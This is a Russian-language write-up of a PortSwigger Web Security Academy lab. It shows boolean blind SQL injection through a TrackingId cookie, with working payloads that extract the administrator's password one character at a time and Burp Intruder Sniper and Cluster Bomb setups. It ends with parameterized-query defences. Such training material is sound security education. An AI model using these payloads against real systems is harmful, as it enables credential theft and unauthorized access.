








## Lab: Blind SQL injection with conditional responses


**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-19

---

## TL;DR
Cookie `TrackingId` уязвим к Blind SQL инъекции. Данные не возвращаются
напрямую — единственный индикатор: наличие или отсутствие сообщения
`Welcome back` на странице. Через последовательные условные запросы
определена длина пароля (20 символов) и все символы пароля пользователя
`administrator`. Выполнен вход под его учётной записью.

---

## Описание уязвимости

Blind SQL инъекция — данные из БД **не отображаются** в ответе
напрямую. Единственный канал передачи информации — **булев индикатор**:
страница ведёт себя по-разному в зависимости от истинности условия.

```
Условие истинно  → Welcome back появляется  → ответ: ДА
Условие ложно   → Welcome back исчезает     → ответ: НЕТ
```

Через серию вопросов "да/нет" можно вытащить любые данные посимвольно.

### Чем отличается от обычного SQLi

```
Обычный SQLi (UNION атака):
UNION SELECT username, password FROM users
→ данные видны прямо в ответе

Blind SQLi:
AND (SELECT SUBSTRING(password,1,1))='a'
→ только Welcome back или нет
→ нужно угадывать символ за символом
```

---

## Разведка

### Шаг 1 — Подтверждение инъекции через true/false условия

Перехватила запрос содержащий cookie `TrackingId` в Burp Repeater.

Изменила значение на истинное условие:

```
TrackingId=xyz' AND '1'='1
```

Сообщение `Welcome back` **появилось** — условие истинно,
инъекция работает.

```sql
SELECT * FROM tracking WHERE id='xyz' AND '1'='1'
-- '1'='1' всегда истинно → запрос возвращает строки → Welcome back
```



Изменила на ложное условие:

```
TrackingId=xyz' AND '1'='2
```

Сообщение `Welcome back` **исчезло** — условие ложно.

```sql
SELECT * FROM tracking WHERE id='xyz' AND '1'='2'
-- '1'='2' всегда ложно → запрос не возвращает строк → нет Welcome back
```



Это подтверждает что могу управлять результатом запроса
через условие в cookie.

### Шаг 2 — Подтверждение существования таблицы users

```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

`Welcome back` появился — таблица `users` существует.

```sql
-- Подзапрос возвращает 'a' если таблица users существует
-- LIMIT 1 — берём только одну строку
-- Сравниваем с 'a' → истина → Welcome back
```



### Шаг 3 — Подтверждение существования пользователя administrator

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

`Welcome back` появился — пользователь `administrator` существует.



---

## Определение длины пароля

### Шаг 4 — Перебор длины через LENGTH()

Последовательно проверяла длину пароля увеличивая число:

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
→ Welcome back (длина > 1 ✓)

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
→ Welcome back (длина > 2 ✓)

...

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a
→ Welcome back (длина > 19 ✓)

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
→ НЕТ Welcome back (длина не > 20)
```

Длина пароля = **20 символов**.



---

## Извлечение пароля посимвольно

### Шаг 5 — Настройка Burp Intruder

Отправила запрос в Burp Intruder. Установила payload с позицией
на первый символ:

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

`SUBSTRING(password,1,1)` — берёт 1 символ начиная с позиции 1.
Маркер `§a§` — позиция для перебора символов.

**Настройки Payloads:**
```
Тип: Simple list
Добавила из списка: Lowercase letters (a-z) + Numbers (0-9)
Итого 36 символов
```



### Шаг 6 — Запуск атаки и поиск совпадения

Запустила атаку. В результатах отсортировала по колонке
`Welcome back` — нашла строку с галочкой.
Payload этой строки = первый символ пароля.



### Шаг 7 — Повторение для всех 20 позиций

Вернулась в Intruder, изменила смещение с `1` на `2`:

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

Запустила атаку снова. Повторила для позиций 3, 4 ... 20.

Записывала найденный символ для каждой позиции пока не собрала
полный пароль из 20 символов.

---

## Получение доступа

### Шаг 8 — Вход под administrator

Перешла на страницу входа, ввела собранный пароль:

```
Username: administrator
Password: [20-символьный пароль]
```



---

## Улучшенный подход — Cluster Bomb

Стандартный метод требует запускать Intruder **20 раз** вручную —
по одному разу для каждой позиции символа. Это неудобно.

Cluster Bomb позволяет сделать это **одной атакой** с двумя
позициями payload одновременно.

### Настройка Cluster Bomb

**Тип атаки:** Cluster Bomb (перебирает все комбинации двух списков)

**Payload с двумя маркерами:**
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

```
Маркер §1§ → позиция символа (1-20)
Маркер §a§ → сам символ (a-z, 0-9)
```

**Payload 1 — позиции:**
```
Тип: Numbers
From: 1
To: 20
Step: 1
```

**Payload 2 — символы:**
```
Тип: Simple list
a, b, c ... z, 0, 1 ... 9
```

**Grep — Match:** `Welcome back`

### Как работает

Cluster Bomb перебирает **все комбинации** двух списков:

```
20 позиций × 36 символов = 720 запросов (всё в одной атаке)

Позиция 1 + символ 'a' → нет Welcome back
Позиция 1 + символ 'b' → нет Welcome back
...
Позиция 1 + символ 's' → Welcome back ✓ → первый символ = 's'
...
Позиция 2 + символ 'e' → Welcome back ✓ → второй символ = 'e'
...
```

### Как читать результаты

После атаки фильтруешь по галочке в колонке `Welcome back` —
видишь сразу все 20 символов:

```
#     Payload 1    Payload 2    Welcome back
───────────────────────────────────────────
19    1            s            ✓
57    2            e            ✓
93    3            c            ✓
...
```

Сортируешь по Payload 1 (позиция) — собираешь пароль по порядку.

### Сравнение подходов

```
Метод              Запросов    Атак в Intruder    Ручных действий
────────────────────────────────────────────────────────────────
Стандартный        720         20                 высокие
Cluster Bomb       720         1                  минимальные
```

Количество запросов одинаковое — но Cluster Bomb требует
настроить Intruder **один раз** вместо двадцати.

---

## Итог

Blind SQL инъекция через cookie `TrackingId` позволила:

```
1. Подтвердить инъекцию          → AND '1'='1' / AND '1'='2'
2. Подтвердить таблицу users     → SELECT 'a' FROM users LIMIT 1
3. Подтвердить пользователя      → WHERE username='administrator'
4. Определить длину пароля       → LENGTH(password)>N
5. Извлечь пароль посимвольно    → SUBSTRING(password,N,1)='x'
6. Войти под administrator       → используя найденный пароль
```

---

## Защита

```python
# УЯЗВИМО — значение cookie подставляется в запрос напрямую:
query = f"SELECT * FROM tracking WHERE id='{tracking_id}'"
cursor.execute(query)

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM tracking WHERE id=?"
cursor.execute(query, (tracking_id,))
```

Дополнительно:
- Параметризованные запросы исключают инъекцию полностью
- Хранить пароли в виде хэшей (bcrypt, argon2) —
  даже при успешной Blind SQLi атаке атакующий получит хэш
  который нужно ещё взломать
- Не раскрывать булевы индикаторы зависящие от данных БД —
  сообщение `Welcome back` не должно зависеть от результата
  SQL запроса с пользовательским вводом
- Rate limiting на запросы — 720 запросов подряд
  от одного IP должны вызывать блокировку